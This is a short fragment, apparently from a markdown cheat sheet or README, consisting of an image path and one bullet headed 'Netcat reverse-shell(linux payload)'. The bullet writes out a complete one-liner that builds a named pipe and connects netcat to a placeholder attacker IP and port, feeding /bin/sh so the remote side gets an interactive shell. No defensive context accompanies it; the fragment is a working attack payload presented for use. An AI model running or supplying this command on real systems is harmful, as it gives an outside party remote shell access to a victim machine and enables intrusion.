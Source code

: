+ **Netcat reverse-shell(linux payload)**: `mkfifo /tmp/f; nc <ip> <port> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` 

